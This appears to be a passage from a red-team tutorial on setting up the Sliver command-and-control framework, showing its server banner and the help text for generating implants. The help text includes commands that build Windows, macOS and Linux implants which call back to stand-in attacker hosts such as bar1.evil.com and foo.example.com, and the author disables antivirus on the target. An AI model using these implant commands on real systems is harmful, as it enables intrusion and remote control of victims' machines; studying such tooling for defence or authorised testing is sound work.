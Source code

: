```bash
All hackers gain reinforce
[*] Server v1.5.42 - kali
[*] Client v1.5.42 - 85b0e870d05ec47184958dbcb<SNIP>f
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command
sliver >
```

# Your First Beacon
The Server set up is done. We are given a windows 10 as a target. We disable all anti-virus and tampering on the target machine for now for demostration purposes. Let’s generate a quick implant and send it over to the target.
Using the help with the generate command, we are given the help menu along with some examples we can try.

```bash
++ Command and Control ++
You must specificy at least one c2 endpoint when generating an implant, this can be one or more of --mtls, --wg, --http, or --dns, --named-pipe, or --tcp-pivot.
The command requires at least one use of --mtls, --wg, --http, or --dns, --named-pipe, or --tcp-pivot.

The follow command is used to generate a sliver Windows executable (PE) file, that will connect back to the server using mutual-TLS:
        generate --mtls foo.example.com 

The follow command is used to generate a sliver Windows executable (PE) file, that will connect back to the server using Wireguard on UDP port 9090,
then connect to TCP port 1337 on the server's virtual tunnel interface to retrieve new wireguard keys, re-establish the wireguard connection using the new keys, 
then connect to TCP port 8888 on the server's virtual tunnel interface to establish c2 comms.
        generate --wg 3.3.3.3:9090 --key-exchange 1337 --tcp-comms 8888

You can also stack the C2 configuration with multiple protocols:
        generate --os linux --mtls example.com,domain.com --http bar1.evil.com,bar2.attacker.com --dns baz.bishopfox.com


++ Formats ++
Supported output formats are Windows PE, Windows DLL, Windows Shellcode, Mach-O, and ELF. The output format is controlled
with the --os and --format flags.

To output a 64bit Windows PE file (defaults to WinPE/64bit), either of the following command would be used:
        generate --mtls foo.example.com 
        generate --os windows --arch 64bit --mtls foo.example.com

A Windows DLL can be generated with the following command:
        generate --format shared --mtls foo.example.com

To output a MacOS Mach-O executable file, the following command would be used
        generate --os mac --mtls foo.example.com 

To output a Linux ELF executable file, the following command would be used:
        generate --os linux --mtls foo.example.com 


++ DNS Canaries ++
DNS canaries are unique per-binary domains that are deliberately NOT obfuscated during the compilation process. 
```